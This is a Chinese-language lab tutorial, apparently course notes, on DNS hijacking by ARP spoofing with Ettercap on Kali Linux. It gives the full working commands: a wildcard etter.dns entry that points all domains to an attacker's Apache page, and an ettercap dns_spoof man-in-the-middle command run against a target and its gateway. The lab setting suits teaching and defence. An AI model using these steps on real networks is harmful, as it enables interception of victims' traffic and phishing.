 # ARP-Ettercap dns劫持

## 1.什么是DNS

#### 1.概念

DNS是Domain Name System的缩写, 我们称之域名系统。首先它是远程调用服务，本地默认占用53端口，它本身的实质上一个域名和ip的数据库服务器，他要完成的任务是帮我们把输入的域名转换成ip地址，之后通过ip寻址连接目标服务器。

#### 2.工作过程

当访问一个网站时系统将从DNS缓存中读取该域名所对应的IP地址，当查找不到时就会到系统中查找hosts文件，如果还没有那么才会向DNS服务器请求一个DNS查询，DNS服务器将返回该域名所对应的IP，在你的系统收到解析地址以后将使用该IP地址进行访问，同时将解析缓存到本地的DNS缓存中。
![DNS解析过程](.\DNS解析过程.png)

## 2.什么是DNS劫持

#### 1.概念

 DNS劫持又称域名劫持，是指在劫持的网络范围内拦截域名解析的请求，分析请求的域名，把审查范围以外的请求放行，否则返回假的IP地址或者什么都不做使请求失去响应，其效果就是对特定的网络不能访问或访问的是假网址。

#### 2.ettercap劫持的原理

局域网劫持, 攻击者通过伪装成网关, 劫持受害者的网络请求, 将网络请求拦截到指定的服务器

#### 3.DNS常用命令讲解

1.查看DNS缓存表

```
ipconfig /displaydns
```

2.获取DNS地址：

```
ping maishibing.com
```

2.刷新DNS缓存

```
ipconfig /flushdns
```



## 3.ARP-DNS欺骗攻击步骤

#### 1.kali开启apache服务

```
service apache2 start
```

#### 2.浏览器访问Apache的首页

```
http://192.168.110.12
```

#### 3.编辑ettercap配置文件

##### 1.进入配置文件位置

```
cd /etc/ettercap
```

##### 2.复制原有的配置文件（环境恢复比较方便）

```
cp etter.dns etter.dns1
```

#### 3.设置dns劫持配置文件

```
vi /etc/ettercap/etter.dns
添加以下内容
*   A   192.168.110.12
*   PTR 192.168.110.12
wq保存
参数
*:代表所有的网站 也可设置某个网站 www.mashibing.com
A:代表钓鱼的ip地址
PTR ：常被用于反向地址解析
```

![dns配置文件](.\dns配置文件.png)

#### 4.ettercap劫持命令讲解

```
 ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /被攻击者ip// /被攻击者网关// 
 -i：网卡
 -T：文本模式
 -q：安静模式
 -M：执行mitm攻击
 -P：plugin 开始该插件
```

#### 5.靶机访问以下网站确认环境正常

```
http://www.mashibing.com/
http://m.ctrip.com
http://www.jd.com/
```

```
ping www.mashibing.com
ping m.ctrip.com
ping www.jd.com
```

#### 6.执行劫持命令

```
ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /192.168.40.102// /192.168.40.1// >b.txt
```

#### 7.分析日志

```
tail -f b.txt
或者
tail -f b.txt | grep "dns_spoof"
```

#### 8.靶机访问以下网站查看攻击效果

```
http://www.mashibing.com/
http://m.ctrip.com
http://www.jd.com/
```

```
ping www.mashibing.com
```

#### 9.停止劫持

```
Ctrl+C
```

#### 10.恢复dns劫持，刷新dns缓存即可。

```
ipconfig /flushdns
```

#### 11.靶机访问以下网站查看环境是否恢复正常

```
http://www.mashibing.com/
http://m.ctrip.com
http://www.jd.com/
```

```
ping www.mashibing.com
```

#### 12.恢复kali环境

##### 1.进入配置文件位置

```
cd /etc/ettercap
```

##### 2.复制dns文件到新文件

```
cp etter.dns etter.dns2
```

##### 3.还原dns配置文件

```
cp etter.dns1 etter.dns
```

## 4.课堂小结

参考：ARP-Ettercap dns劫持.xmind

